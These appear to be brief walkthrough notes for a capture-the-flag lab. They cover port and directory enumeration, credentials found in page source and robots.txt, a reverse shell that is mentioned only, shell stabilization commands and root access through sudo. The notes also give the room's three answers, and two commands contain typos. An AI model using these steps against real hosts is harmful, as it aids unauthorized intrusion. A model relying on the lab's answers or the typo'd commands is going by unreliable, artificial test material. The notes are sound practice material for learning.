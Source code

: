 #BASIC INFO

```
ip_addr = 10.10.152.123


open port:
	22/tcp OpenSSH 7.2p2
	80/tcp Apache httpd2.4.18

Run gobuster on the ip
gobuster dir -u http://10.10.152.123 --wrodlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,sh,cgi,css,txt,html,js,py


```

#CREDENTIALS

```
On the website page source
username = R1ckRul3s

In robots.txt
Wubbalubbadubdub

```

#EXPLOIT

```
grep . *
1st ingredient = mr. meeseek hair
python reverse shell
using python3 since python not recognized by the OS
```

#SPAWN STABLE SHELL

```
python3 -c "impoty pty; pty.spawn('/bin/bash')"
ctrl^z
stty raw -echo
fg
export TERM=xterm

```

#REMAINING INGREDIENT

```
cd /home/rick
2nd ingredient = 1 jerry tear

sudo bash
3rd ingredient = fleeb juice
```